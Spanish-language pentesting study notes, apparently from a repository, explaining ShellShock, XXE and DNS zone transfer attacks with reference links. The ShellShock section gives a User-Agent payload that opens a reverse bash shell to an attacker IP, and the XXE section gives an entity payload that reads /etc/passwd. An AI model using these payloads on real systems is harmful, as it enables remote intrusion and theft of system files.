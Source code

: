 Este tipo de ataque funciona cuando las cabeceras terminan en .cgi, .pl, .sh e incluso pueden ser otras extensiones, algunos vectores vulnerables son:

 - Servidor Web CGI
 - Servidor OpenSSH
 - Clientes DHCP
 - Servidor QMail
 - Shell restringida IBM HMC

Para poder hacer un ataque cambiamos el *User Agent* con BurpSuite y abrimos un puerto de escucha con nc, recargamos la página y se recarga la petición.

```bash
User-Agent: () { :; }; /bin/bash -i /dev/tcp/{IP}/443 
```

[ShellShock](https://blog.cloudflare.com/inside-shellshock/)

## Vulnerabilidad XML External Entity Injection (XXE)

XXE se refiere a un ataque de falsificación de solicitud de servidor (SSRF), mediante el cual un atacante es capaz de causar:

 - Denegación de servicio (DDoS)
 - Acceso a archivos y servicios locales o remotos

Una vulnerabilidad de XXE consiste en una inyección que se aprovecha de la mala configuración del intérprete XML permitiendo incluir entidades externas, este ataque se realiza contra una aplicación que interpreta lenguaje XML en sus parámetros.
Para identificar esta vulnerabilidad podemos interceptar la página con BurpSuite, si el Content Types es de tipo text/xml, application/xml estos son indicadores que nos permiten verificar, cómo los parámetros son enviados por el request a un intérprete de XML, adicionalmente también existe puede darse al parsear archivos como JSON a XML e inyectar el payload en el sitio web.
Para ver si la web tiene este tipo de vulnerabilidad podemos intentar lo que se presenta en la siguiente página:

[XXE](https://backtrackacademy.com/articulo/explorando-la-vulnerabilidad-xxe-xml-external-entity)

Inyectamos el código en la página, ya sea en el url o si es que se puede subiendo un archivo malicioso con el sgte código para listar usuarios

```bash
<!DOCTYPE foo  [<!ENTITY bar SYSTEM "file:///etc/passwd">]> <foo>&bar;</foo>
```

[Entendiendo y Explotando XXE](https://underc0de.org/foro/bugs-y-exploits/entendiendo-y-explotando-xxe-(external-xml-entities)/)

## Vulnerabilidad Domain Zone Transfer

Las Transferencias de zona dns, a veces llamadas AXFR por el tipo de solicitud, es un tipo de transacción de DNS. Es uno de varios mecanismos disponibles para administradores para replicar bases de datos DNS a través de un conjunto de servidores DNS. La transferencia puede hacerse de dos formas: completa (AXFR) o incremental (IXFR)

[Domain Zone Transfer](https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/)
